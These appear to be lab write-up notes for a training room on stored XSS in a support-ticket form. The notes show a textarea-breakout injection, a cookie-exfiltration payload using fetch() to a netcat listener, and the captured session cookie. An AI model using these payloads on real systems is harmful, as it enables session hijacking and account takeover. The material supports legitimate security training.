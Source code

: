```
<div class="panel-body">
	<div><label>Status:</label> Open</div>
	<div><label>Ticket Id:</label> 8</div>
	<div><label>Ticket Subject:</label> testing</div>
	<div><label>Ticket Created:</label> 26/01/2025 19:59</div>
	<div><label>Ticket Contents:</label></div>
	<div><textarea class="form-control">test</textarea></div>
</div>
</div>



-- make a new ticket and put in text area
</textarea>test2

this time test2 is outside the text area
<div><textarea class="form-control"></textarea>test2</div>

```


```
time for XSS payload
make new ticket

</textarea><script>alert('THM');</script>

popup 'THM'

```

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice.

```
# terminal
nc -lvnp 9001
```

```
new ticket

</textarea><script>fetch('http://10.10.31.92:9001?cookie=' + btoa(document.cookie) );</script>


</textarea> closes the tag
fetch()     makes HTTP request
THM_IP
port_num    port number for listening
?cookie=    query the string for victims cookie
btoa()      base64 command for encoding victim cookie
document.cookie  access the victim cookie



Listening on 0.0.0.0 9001
Connection received on 10.10.197.16 58176
GET /?cookie=c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ== HTTP/1.1
Host: 10.10.31.92:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.72 Safari/537.36
Accept: */*
Origin: http://172.17.0.1
Referer: http://172.17.0.1/
```